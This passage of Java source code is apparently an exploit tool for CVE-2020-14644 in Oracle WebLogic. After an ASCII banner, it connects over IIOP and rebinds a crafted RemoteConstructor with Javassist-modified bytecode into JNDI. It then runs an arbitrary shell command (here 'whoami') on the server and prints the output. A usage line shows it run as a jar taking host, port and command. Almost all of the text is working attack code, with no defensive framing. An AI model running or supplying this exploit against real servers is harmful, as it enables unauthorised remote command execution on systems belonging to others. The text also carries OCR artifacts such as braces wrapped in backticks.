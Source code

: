 ```
                "  / __\\ \\ / / _ \\   / /| | | |/ /| | | |______| || |__   _| '_ \\__   _|__   _|  / _ \\ \\/ / '_ \\ \n" +
                " | (__ \\ V /  __/  / /_| |_| / /_| |_| |      | || |  | | | (_) | | |    | |   |  __/&gt;  &lt;| |_) |\n" +
                "  \\___| \\_/ \\___| |____|\\___/____|\\___/       |_||_|  |_|  \\___/  |_|    |_|    \\___/_/\\_\\ .__/ \n" +
                "                                                                                         | |    \n" +
                "                                                                                         |_|    " +
                "                                                     Powered by UnicodeSec potatso              ";
        System.out.println(text);
        String host = "127.0.0.1";
        String port = "7001";
        String command = "whoami";
        Context iiopCtx = getInitialContext(host, port);
        try`{`
            iiopCtx.lookup("UnicodeSec");
        `}`catch (Exception e)`{`
            ClassIdentity classIdentity = new ClassIdentity(org.iiop.test.class);
            ClassPool cp = ClassPool.getDefault();
            CtClass ctClass = cp.get(org.iiop.test.class.getName());
            ctClass.replaceClassName(org.iiop.test.class.getName(), org.iiop.test.class.getName() + "$" + classIdentity.getVersion());
            RemoteConstructor constructor = new RemoteConstructor(
                    new ClassDefinition(classIdentity, ctClass.toBytecode()),
                    new Object[]`{``}`
            );
            String bindName = "UnicodeSec" + System.nanoTime();
            iiopCtx.rebind(bindName, constructor);
        `}`
            executeCmdFromWLC(command, iiopCtx);
`}`

    private static void printUsage() `{`
        System.out.println("usage: java -jar cve-2020-14644.jar host port command");
        System.exit(-1);
`}`

    private static void executeCmdFromWLC(String command, Context iiopCtx) throws NamingException, RemoteException `{`
        ClusterMasterRemote remote = (ClusterMasterRemote) iiopCtx.lookup("UnicodeSec");
        String response = remote.getServerLocation(command);
        System.out.println(response);
`}`

    public static Context getInitialContext(String host, String port) throws Exception `{`
        String url = converUrl(host, port);
        Environment environment = new Environment();
        environment.setProviderUrl(url);
        environment.setEnableServerAffinity(false);
        Context context = environment.getInitialContext();
        return context;
`}`

    public static String converUrl(String host, String port) `{`
        return "iiop://" + host + ":" + port;
`}`

`}`
```
